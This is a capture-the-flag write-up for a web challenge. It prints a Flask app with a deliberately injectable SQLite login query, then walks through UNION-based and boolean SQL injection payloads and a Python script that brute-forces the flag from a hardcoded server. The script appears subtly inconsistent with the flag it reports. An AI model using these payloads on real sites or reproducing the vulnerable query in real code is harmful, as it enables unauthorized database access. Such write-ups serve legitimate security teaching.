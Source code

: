 <h1>  7Billions and you have 0 chance  </h1>

<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/image3.PNG>

Enumerating through the website i found ```robots.txt```
And got this code:

```py
from flask import request, send_from_directory, render_template, send_file, Flask
import sqlite3

app = Flask(__name__)

app.static_folder="public"


def getUser(username, pwd):
    connection_obj = sqlite3.connect("database.db")
    cursor_obj = connection_obj.cursor()
    cursor_obj.execute(
        f"SELECT * FROM users WHERE username = '{username}' AND password = '{pwd}'"
    )

    result = cursor_obj.fetchone()
    print(result)
    if result:
        return True
    else:
        return False


@app.route("/", methods=["GET"])
def home():
    return render_template("index.html")


@app.route("/robots.txt", methods=["GET"])
def static_from_root():
    return send_from_directory(app.static_folder, request.path[1:])


@app.route("/source", methods=["GET"])
def get_source():
    return send_file(__file__)


@app.route("/admin", methods=["POST"])
def admin():
    username = request.form.get("username")
    password = request.form.get("password")

    if username and password and getUser(username, password):
        return render_template("auth.html")
    else:
        return render_template("404.html"), 404


@app.errorhandler(404)
def page_not_found(e):
    return render_template("404.html"), 404


app.run(host="0.0.0.0", port=8000)
```

It was obvious that it was SQLite injection, but to be sure, let's detect the injection point:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture2.PNG>
after we put ```'``` we got this Error:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture3.PNG>



Next, we need to find the number of columns using this payload:
```admin'UNION+SELECT+NULL,NULL,NULL--```
I found that there were only 3 columns through enumeration.
and when I got that the database has 3 columns, a new response got to us:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture4.PNG>
```which is the valid one :)```

<b>Here is the final take "there are 7 billions people and I have 0 chance,read it from the end"</b>

From that, we knew that it was boolean-based sqlite injection, so let's get to work:


first we need to find the name of the table using this query:
```<b>username=admin'UNION+SELECT+tbl_name,NULL,NULL+FROM+sqlite_master+WHERE+tbl_name+NOT+LIKE+'sqlite_%'+AND+tbl_name+LIKE+'fla%'+--&password=asd</b>```

throught enumerating the ```LIKE``` value we found that the table name is ```flag```.

after that we need to find the column name!
i honestly guessed that the coloumn name was ```flag``` i think thats has to do.
i used this query to guess it:
```admin'UNION+SELECT+flag,NULL,NULL+FROM+flag--```
and got a valid response:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture5.PNG>


finally we have to exract the flag using this query:
```admin'UNION+SELECT+0x660x6c0x610x67,NULL,NULL+FROM+flag+WHERE+flag+LIKE+'securinets{%'--```
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture6.PNG>

we have to keep enumerating the ```LIKE``` value until we get our full flag.
so i wrote this script to do the work

```py
from requests import *
from string import *
url = "http://51.12.211.165:8200/admin"
ans=""

pr="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!_{}"
for i in pr:
    data = {
    "username": "admin' UNION SELECT 0x660x6c0x610x67,NULL,NULL FROM flag WHERE flag LIKE 'securinets{luCK_"+(ans+i)+"%'--",
    "password": "asd"}

    p=post(url,data=data)
    if p.status_code==200:
        ans+=i
        print(ans)
```

running the script we got the flag: ```securinets{Luck_15_n00b5_b3l13f5}```

